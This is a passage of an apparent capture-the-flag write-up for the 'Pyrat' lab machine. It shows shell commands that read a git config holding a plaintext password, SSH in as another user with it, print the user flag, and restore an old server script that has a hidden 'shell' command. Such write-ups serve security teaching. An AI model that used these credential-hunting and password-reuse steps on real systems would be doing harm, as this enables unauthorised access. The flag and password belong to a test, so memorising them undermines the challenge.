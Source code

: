 ```
www-data@Pyrat:/opt/dev/.git$ ls
ls
branches	config	     HEAD   index  logs     refs
COMMIT_EDITMSG	description  hooks  info   objects

www-data@Pyrat:/opt/dev/.git$ cat config
cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
    	name = Jose Mario
    	email = josemlwdf@github.com

[credential]
    	helper = cache --timeout=3600

[credential "https://github.com"]
    	username = think
    	password = _TH1NKINGPirate$_

```

Using this password we can SSH as the think user and obtain the user flag :

```
think@Pyrat:~$ cat user.txt
996bdb1f619a68361417cabca5454705
```

---
## **Post-Exploitation**

Since the git repo is here we can run `git status` to check for changes.

```
think@Pyrat:/opt/dev$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    pyrat.py.old

no changes added to commit (use "git add" and/or "git commit -a")
think@Pyrat:/opt/dev$ git restore pyrat.py.old
```

We can then read the old script : 

```
think@Pyrat:/opt/dev$ cat pyrat.py.old 
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
```